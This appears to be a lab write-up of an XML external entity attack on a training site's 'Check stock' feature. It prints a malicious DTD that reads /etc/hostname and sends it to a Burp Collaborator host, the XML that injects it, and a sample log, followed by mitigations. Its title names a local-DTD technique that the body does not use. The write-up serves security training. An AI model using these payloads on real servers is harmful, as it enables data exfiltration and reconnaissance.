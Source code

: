 
# 1. Exploiting XXE to Retrieve Data by Repurposing a Local DTD

## 2. CVSS Score

**CVSS v3.1 Base Score: 9.1 (Critical)**
**CWE-611: Improper Restriction of XML External Entity Reference (‘XXE’)**

## 3. OWASP Top 10 Reference

* **A05:2021 – Security Misconfiguration**
* **A10:2021 – Server-Side Request Forgery (SSRF)**

---

## 4. Description of Vulnerability

In this lab, we exploit an **XML External Entity (XXE)** vulnerability using a **malicious DTD (Document Type Definition)** file to retrieve data from the server. The attack leverages the **parameter entity** functionality to execute **out-of-band interactions**, specifically by exfiltrating the content of a sensitive file on the server, such as `/etc/hostname`, by initiating DNS and HTTP requests to an attacker-controlled Burp Collaborator subdomain.

---

## 5. Detailed Explanation of What We Performed

The goal was to inject a **malicious DTD** into the POST request made by the "Check stock" feature. This DTD file contained an **external entity** that references a **file** on the server (`/etc/hostname`) and exfiltrates the file’s contents to the **Burp Collaborator** server via a **parameter entity**. By observing **out-of-band interactions** (DNS and HTTP), we confirmed the XXE vulnerability.

---

## 6. Step-by-Step Procedure

### Step 1: Generate Burp Collaborator Payload

1. Open **Burp Suite Professional**.
2. Navigate to the **Collaborator tab** and click **"Copy to clipboard"** to generate a unique **Burp Collaborator subdomain** (e.g., `abc123xyz.burpcollaborator.net`).

### Step 2: Create the Malicious DTD File

3. Use the copied Collaborator subdomain and craft the following malicious DTD:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://abc123xyz.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

4. Save the file on your server or use **Burp Suite’s "Go to exploit server"** to host the malicious DTD file.
5. Note the URL of the DTD file (e.g., `http://your-server.com/malicious.dtd`).

### Step 3: Inject the Malicious DTD into the Stock Check Request

6. Visit the **product page** and click **"Check stock"** to trigger the POST request.
7. Intercept the request in **Burp Suite Proxy** and modify the payload to include the following XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://your-server.com/malicious.dtd">
  %xxe;
]>
<stockCheck>
  <productId>123</productId>
  <storeId>1</storeId>
</stockCheck>
```

8. Replace `http://your-server.com/malicious.dtd` with the actual URL of the malicious DTD file.

### Step 4: Forward the Request and Monitor Collaborator

9. Forward the modified request to the server.
10. Return to the **Collaborator tab** and click **"Poll now"** to check for interactions.

### Step 5: Confirm Out-of-Band Interaction

11. After a few seconds, check for **DNS** and **HTTP** interactions in the **Collaborator tab**.
12. You should see interactions triggered by the application. One of the interactions will be the **HTTP request** containing the contents of the `/etc/hostname` file.

---

## 7. Impact of the Vulnerability

* **Sensitive File Exposure**: Attackers can exfiltrate sensitive system files like `/etc/hostname`, leading to further attacks or reconnaissance.
* **Out-of-Band Data Exfiltration**: Even though the application does not directly reflect the contents in the response, data can still be leaked via DNS and HTTP requests initiated by the server.
* **Server Information Disclosure**: Revealing server-specific details (like the hostname) can provide attackers with valuable information for further attacks, such as **privilege escalation** or **targeted exploits**.

---

## 8. Recommendations and Mitigations

* **Disable DTD Processing**: Configure XML parsers to reject `DOCTYPE` declarations and prevent external entities altogether.
* **Use Secure XML Parsers**: Employ libraries like **defusedxml** to ensure secure parsing of XML files and prevent XXE vulnerabilities.
* **Sanitize User Input**: Properly validate and sanitize all user inputs, including XML documents, before processing them.
* **Limit External Requests**: Restrict or monitor outbound HTTP/DNS requests from the server to mitigate the risk of out-of-band interactions.

---

## 9. References

* [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [PortSwigger XXE Guide](https://portswigger.net/web-security/xxe)

---

## 10. Proof of Concept

### Malicious DTD:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://abc123xyz.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

### Exploited XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://your-server.com/malicious.dtd">
  %xxe;
]>
<stockCheck>
  <productId>123</productId>
  <storeId>1</storeId>
</stockCheck>
```

### Collaborator Log Output:

```
[DNS] abc123xyz.burpcollaborator.net -> <source-ip>
[HTTP] GET /?x=%file HTTP/1.1
Host: abc123xyz.burpcollaborator.net
User-Agent: Java/1.8.0
...
